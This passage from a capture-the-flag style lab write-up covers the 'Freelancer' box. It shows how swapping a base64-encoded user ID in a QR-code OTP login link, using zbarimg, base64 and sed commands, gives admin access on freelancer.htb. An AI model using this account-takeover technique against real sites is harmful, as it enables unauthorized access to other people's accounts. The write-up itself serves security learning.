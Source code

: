 ![](/assets/images/Freelancer/Pasted%20image%2020241005110415.png)

Here it's also used the base64 id, which in my case it's 10011:

```bash
❯ echo -n 'MTAwMTE=' | base64 -d;echo
10011
```

What if I replace my ID with the admin's ID which is 2 as I saw in the users enumeration of before? First, I need to generate another QRCode because when it's not the first time is used, it expires:

![](/assets/images/Freelancer/Pasted%20image%2020241005110649.png)

I downloaded another qrcode from the page and now it's a different link:

```bash
❯ zbarimg --raw qrcode.png 2>/dev/null
http://freelancer.htb/accounts/login/otp/MTAwMTE=/107c428ad90f6354b2bae3d6bc29f3eb/
```

And I can replace that base64 ID of 10011 to the base64 ID of 2 which belongs to admin:

```bash
❯ zbarimg --raw qrcode.png 2>/dev/null | sed "s/MTAwMTE=/$(echo -n 2 | base64 -w 0)/g"
http://freelancer.htb/accounts/login/otp/Mg==/107c428ad90f6354b2bae3d6bc29f3eb/
```

And after entering that URL in the browser, I'm logged in as admin:
